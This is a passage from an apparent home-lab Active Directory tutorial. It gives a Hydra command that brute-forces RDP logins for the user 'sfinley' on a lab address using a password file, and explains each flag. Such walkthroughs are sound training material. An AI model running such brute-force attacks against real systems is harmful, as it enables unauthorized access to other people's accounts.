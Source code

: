 > Hint: use redirection in the terminal to copy the passwords to a file
{: .prompt-tip }

Now, back in terminal, we are going to use Hydra to bruteforce RDP with Sheri Finley's username. Enter `hydra -t 1 -V -f -l sfinley -P passwords.txt rdp://10.90.10.5` and let it run. Below is an explanation of the command and what the output should look like.

**Command Explanation:**
`hydra` - name of program we are invoking
`-t 1` - number of threads to run on
`-V` - verbose mode
`-l sfinley` - user account name we are bruteforcing
`-P passwords.txt` - password list to use
`rdp://10.90.10.5` - our target

![hydra](/assets/ad_lab_pics/pic26.png)
_Hydra command_
